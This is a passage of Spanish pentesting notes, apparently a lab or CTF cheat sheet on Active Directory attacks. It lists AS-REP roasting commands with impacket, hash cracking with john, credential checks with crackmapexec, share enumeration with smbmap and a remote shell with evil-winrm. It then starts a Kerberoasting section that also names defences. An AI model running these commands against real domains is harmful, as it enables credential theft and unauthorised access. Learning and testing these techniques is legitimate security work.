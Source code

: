 Para el ataque de ASREProast:

```
impacket-GetNPUsers <dominio>/ -no-pass -usersfile <wordlistUsers>
```

Otra forma para probar con una lista de users válidos, probar si son ASP-Rep:

```
GetNPUsers.py -request -format john -usersfile valid_usernames.txt <dominio>/
```

Si en la salida vemos un user con muchos dígitos al lado, significa que hay un usuario que es vulnerable a este ataque. En este caso el user 'suport' y tenemos su hash.

Para crackear el hash:

```
john --wordlist=<wordlist> <ficheroHash>
```

Y si funciona tenemos su contraseña.

Podemos validar si es correcta con:

```
crackmapexec smb <IP> -u <user> -p <contraseña>
```

Podemos enumerar recursos compartidos, pero ya de forma autenticada:

```
smbmap -H <IP> -u <user> -p <contraseña>
```

Si tenemos credenciales podemos intentar acceder a la máquina de forma remota:

```
evil-winrm -i <IP> -u <user> -p <contraseña>
```

Si funciona se nos abre una shell y podemos ejecutar comandos. Y después ya ver cómo escalar privilegios. A veces no funciona evil-winrm, si ese usuario no tiene permiso de acceso de forma remota. Si tenemos credenciales, pero no podemos acceder, podemos usar Bloodhound para enumerar el AD.


2. **Kerberoasting**

Cuando tenemos usuario y contraseña de un entorno de AD, podemos hacer un ataque de kerberoasting.

Es una técnica común tras la explotación (postexplotación) para permitir a los atacantes obtener acceso privilegiado al AD (escalar privilegios).

El atacante explota el Servicio de Concesión de Tickets (TGS) de Kerberos para solicitar una contraseña cifrada y, posteriormente, la descifra sin conexión mediante diversas técnicas de fuerza bruta. Estos ataques son difíciles de detectar, ya que la solicitud se realiza a través de un usuario autorizado y no se genera ningún patrón de tráfico inusual durante este proceso. Puede prevenir el ataque garantizando una capa adicional de autenticación mediante MFA o restableciendo la contraseña de la cuenta de servicio del Centro de Distribución de Claves (KDC) de Kerberos de forma frecuente y periódica.

Con este ataque de forma autenticada podemos obtener el ticket del usuario administrador:
